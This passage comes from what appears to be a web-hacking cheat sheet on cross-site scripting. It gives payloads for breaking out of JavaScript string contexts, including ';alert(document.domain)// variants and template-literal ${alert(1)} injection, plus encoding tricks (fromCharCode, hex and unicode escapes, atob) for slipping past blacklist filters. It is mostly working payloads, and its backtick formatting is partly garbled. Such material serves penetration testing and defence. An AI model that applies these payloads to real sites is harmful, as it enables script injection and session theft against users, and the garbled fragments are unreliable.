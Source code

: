 Note that in this example we **haven't even closed the single quote**, but that's not necessary as the **browser first performs HTML parsing** to identify the page elements including blocks of script, and only later performs JavaScript parsing to understand and execute the embedded scripts.

### Inside JS code

If `<>` are being sanitised you can still **escape the string** where your input is being **located** and **execute arbitrary JS**. It's important to **fix JS syntax**, because if there are any errors, the JS code won't be executed:

```text
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```

### Template literals \`\`

In order to construct **strings** apart from single and double quotes JS also accepts **backticks** ``````````````` . This is known as template literals as they allow to **embedded JS expressions** using````````${ ... }`syntax.    
Therefore, if you find that your **input** is being **reflected inside** a JS string that is using **backticks**, you can abuse the syntax`${ ... }\` to execute **arbitrary JS code**:

```var greetings =``Hello, \`\`\`

This can be **abused** using: `${alert(1)}`

### JavaScript bypass blacklists techniques

#### Strings

```javascript
"thisisastring"
'thisisastrig'
`thisisastring`
/thisisastring/ == "/thisisastring/"
/thisisastring/.source == "thisisastring"
String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
"\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
"\164\150\151\163\151\163\141\163\164\162\151\156\147"
"\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
"\u{74}\u{68}\u{69}\u{73}\u{69}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
atob("dGhpc2lzYXN0cmluZw==")
```

#### Space substitutions inside JS code

```javascript
<TAB>
/**/
```

#### [JavaScript without parentheses](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)
